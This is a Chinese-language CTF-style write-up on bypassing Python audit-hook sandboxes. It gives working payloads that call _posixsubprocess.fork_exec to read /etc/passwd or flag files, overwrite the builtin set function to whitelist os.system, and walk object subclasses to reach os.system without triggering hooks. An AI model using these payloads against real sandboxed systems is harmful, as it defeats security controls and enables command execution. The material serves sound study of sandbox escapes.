 结合上面的 `__loader__.load_module(fullname)` 可以得到最终的 payload:
```py
__loader__.load_module('_posixsubprocess').fork_exec([b"/bin/cat","/etc/passwd"], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(__loader__.load_module('os').pipe()), False, False,False, None, None, None, -1, None, False)
```

可以看到全程触发了 `builtins.input/result`, compile, exec 三个 hook, 这些 hook 的触发都是因为 input, compile, exec 函数而触发的, `__loader__.load_module` 和 `_posixsubprocess` 都没有触发.
```py
[+] builtins.input/result, ('__loader__.load_module(\'_posixsubprocess\').fork_exec([b"/bin/cat","/flag"], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(__loader__.load_module(\'os\').pipe()), False, False,False, None, None, None, -1, None, False)',)
[+] compile, (b'__loader__.load_module(\'_posixsubprocess\').fork_exec([b"/bin/cat","/flag"], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(__loader__.load_module(\'os\').pipe()), False, False,False, None, None, None, -1, None, False)', '<string>')
[+] exec, (<code object <module> at 0x7fbecc924670, file "<string>", line 1>,)
```


### 另一种解法: 篡改内置函数
这道 audit hook 题还有另外一种解法.可以看到白名单是通过 set 函数返回的, set 作为一个内置函数实际上也是可以修改的
```py
WHITED_EVENTS = set({'builtins.input', 'builtins.input/result', 'exec', 'compile'})
```

比如我们将 set 函数修改为固定返回一个包含了 os.system 函数的列表
```py
__builtins__.set = lambda x: ['builtins.input', 'builtins.input/result','exec', 'compile', 'os.system']
```
这样 set 函数会固定返回带有 os.system 的列表.

```py
__builtins__.set = lambda x: ['builtins.input', 'builtins.input/result','exec', 'compile', 'os.system']
```

最终 payload:
```py
# 
exec("for k,v in enumerate(globals()['__builtins__']): print(k,v)")

# 篡改函数
exec("globals()['__builtins__']['set']=lambda x: ['builtins.input', 'builtins.input/result','exec', 'compile', 'os.system']\nimport os\nos.system('cat flag2.txt')")
```


### 其他不触发 hook 的方式
使用 `__loader__.load_module('os')` 是为了获取 os 模块, 其实在 no builtins 利用手法中, 无需导入也可以获取对应模块. 例如:

```py
# 获取 sys
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"]

# 获取 os
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'_sitebuiltins." in str(x) and not "_Helper" in str(x) ][0]["sys"].modules["os"]

# 其他的 payload 也都不会触发
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__=="_wrap_close"][0]["system"]("ls")
```
